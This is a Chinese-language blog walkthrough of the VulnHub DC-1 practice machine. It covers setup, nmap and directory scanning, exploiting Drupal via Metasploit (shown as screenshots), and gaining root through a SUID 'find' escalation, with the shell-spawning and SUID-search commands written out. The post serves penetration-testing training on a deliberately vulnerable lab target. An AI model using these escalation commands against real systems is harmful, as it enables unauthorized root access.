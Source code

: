 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      DC-1 				# 标题 
subtitle:   打靶日记之DC-1靶机 #副标题
date:       2024-07-01 				# 时间
author:     OOTAKEMARU 						# 作者
header-img: img/post-bg-dc.png 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 打靶日记
    - DC靶机系列
---
```


>## DC-1



### 靶机安装

官网下载https://download.vulnhub.com/dc/DC-1.zip。

解压后得到.ova文件：

![](https://img.picui.cn/free/2024/07/07/668a22fd4d5ab.jpg)

![2.png](https://img.picui.cn/free/2024/07/07/668a22fe8d882.png)

如果提示导入失败，点【重试】，导入完成后，打开DC-1虚拟机，出现此界面就表示开启成功。

![3.png](https://krseoul.imgtbl.com/i/2024/07/07/668a265deac5a.png)

此处需要让DC靶机跟kali处于同一网段，用kali才能扫出DC的ip地址进行后续渗透。(DC靶机的ip设置好之后拍摄快照方便二次使用）

![4.png](https://krseoul.imgtbl.com/i/2024/07/07/668a265e237ea.png)

![5.png](https://krseoul.imgtbl.com/i/2024/07/07/668a265e47d0a.png)



### 渗透过程

#### 1、信息收集

##### ①探测目标ip地址

探测主机的工具很多，常见的有arp-scan、nmap。

![6.png](https://krseoul.imgtbl.com/i/2024/07/07/668a26ee9777e.png)

![7.png](https://krseoul.imgtbl.com/i/2024/07/07/668a26eee619d.png)

『注意 』

如果发现扫描结果中找不到对应的Mac地址，就需要直接删除DC1原有网络适配器，并重新添加一张NAT网卡来重新加入这个网段。

![8.png](https://krseoul.imgtbl.com/i/2024/07/07/668a26eeb3b15.png)

![9.png](https://krseoul.imgtbl.com/i/2024/07/07/668a26eed907b.png)

##### ②探测目标ip开放端口

用命令 nmap -sV -p- 192.168.253.136 探测目标的端口开放情况。

- -sV 	扫描目标主机端口上运行的软件信息
- -p-     扫描全部端口 0 ~ 65535

![10.png](https://krseoul.imgtbl.com/i/2024/07/07/668a26eed907b.png)

##### ③目录扫描

用御剑扫一下网站目录，目录量很大，可边扫边渗透。

![14.png](https://s2.loli.net/2024/07/07/Mfn5WLaReGVOtUp.png)

##### ④网页信息收集

利用浏览器插件wappalyzer，查看站点信息，也可以自己判断，网页一看cms就是drupal cms。

![11.png](https://s2.loli.net/2024/07/07/Gq6KDw8O9As5kRt.png)

![12.png](https://krseoul.imgtbl.com/i/2024/07/07/668a26ef17984.png)

也可以用kali自带的工具whatweb扫描出网站的相关信息，其中就包含了关键信息Drupal cms。

![13.png](https://krseoul.imgtbl.com/i/2024/07/07/668a26ef08232.png)

#### 2、漏洞探测

通过信息搜集，我们可以发现drupal cms是存在漏洞的，通过搜索引擎搜集相关信息后，接下来我们选择用MSF完成漏洞利用。

#### 3、漏洞利用

##### ①msf攻击

![16.png](https://s2.loli.net/2024/07/07/fem8EGQuUzMaXrD.png)

![17.png](https://img.picui.cn/free/2024/07/07/668a2299a8999.png)

![18.png](https://img.picui.cn/free/2024/07/07/668a2299f2848.png)

![19.png](https://s2.loli.net/2024/07/07/ZhtRiYux9TML1j8.png)

![20.png](https://s2.loli.net/2024/07/07/OqZImaxMTjSe4Vk.png)

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![21.png](https://s2.loli.net/2024/07/07/qU2KCEPFnupM9Xo.png)

由于权限不够，需要将拿到的权限提升为root权限。

##### ②suid提权

![22.png](https://s2.loli.net/2024/07/07/dz6H8rRnuOMg9A1.png)

```
find / -perm -u=s -type f 2>/dev/null
```

![23.png](https://s2.loli.net/2024/07/07/M4uHvhnK6iGVDb3.png)

```
ls -l /usr/bin/find
```

![24.png](https://s2.loli.net/2024/07/07/DHQzxAYr7SapnI2.png)

在linux提权指导的网站中了解命令提权方法：

https://gtfobins.github.io/

![25.png](https://krseoul.imgtbl.com/i/2024/07/07/668a26f374d11.png)

![26.png](https://s2.loli.net/2024/07/07/OSrpsohP7LGHAjZ.png)

![27.png](https://s2.loli.net/2024/07/07/Nq6ukEfSIlAj3hv.png)

```
find . -exec /bin/sh \; -quit
```

![28.png](https://krseoul.imgtbl.com/i/2024/07/07/668a26f42d793.png)

#### 4、获得flag

接下来只要找到剩下的flag文件就能通关了，通过cd到 /root下，命令ls查看该目录下有哪些文件，可以发现存在thefinalflag.txt文件，这就是我们需要寻找的flag文件，通过cat命令打开查看。

![29.png](https://s2.loli.net/2024/07/07/PcN1gXfY9yQB7Hp.png)



### 参考

[DC-1靶场搭建及渗透实战详细过程-金帛的博客-CSDN博客](https://blog.csdn.net/l2872253606/article/details/125463013)

